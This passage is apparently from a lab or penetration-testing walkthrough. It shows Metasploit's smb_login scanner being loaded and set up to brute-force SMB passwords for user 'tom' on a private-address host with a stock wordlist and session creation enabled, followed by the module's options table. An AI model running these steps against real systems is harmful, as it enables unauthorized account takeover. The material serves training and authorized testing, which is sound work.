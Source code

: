 ```bash
msfconsole
search smb_login
use auxiliary/scanner/smb/smb_login
```

**Metasploit Search Results:**
```
Matching Modules
================

   #  Name                             Disclosure Date  Rank    Check  Description
   -  ----                             ---------------  ----    -----  -----------
   0  auxiliary/scanner/smb/smb_login  .                normal  No     SMB Login Check Scanner

Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/smb/smb_login
```

### Step 2: Module Configuration

Let's configure the scanner with appropriate parameters. The unix_passwords.txt wordlist is effective against weak passwords that haven't been changed in a long time:

```bash
show options
set RHOSTS 10.2.27.100
set SMBUser tom
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
set CreateSession true
run
```

**Module Options:**
```
Module options (auxiliary/scanner/smb/smb_login):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   ABORT_ON_LOCKOUT   false            yes       Abort the run when an account lockout is detected
   ANONYMOUS_LOGIN    false            yes       Attempt to login with a blank username and password
   BLANK_PASSWORDS    false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED   5                yes       How fast to bruteforce, from 0 to 5
   CreateSession      false            no        Create a new session for every successful login
   DB_ALL_CREDS       false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS        false            no        Add all passwords in the current database to the list
   DB_ALL_USERS       false            no        Add all users in the current database to the list
   RHOSTS                              yes       The target host(s)
   RPORT              445              yes       The SMB service port (TCP)
   SMBDomain          .                no        The Windows domain to use for authentication
   SMBPass                             no        The password for the specified username
   SMBUser                             no        The username to authenticate as
   STOP_ON_SUCCESS    false            yes       Stop guessing when a credential works for a host
   THREADS            1                yes       The number of concurrent threads (max one per host)
   USERPASS_FILE                       no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS       false            no        Try the username as the password for all users
   USER_FILE                           no        File containing usernames, one per line
   VERBOSE            true             yes       Whether to print output for all attempts
```
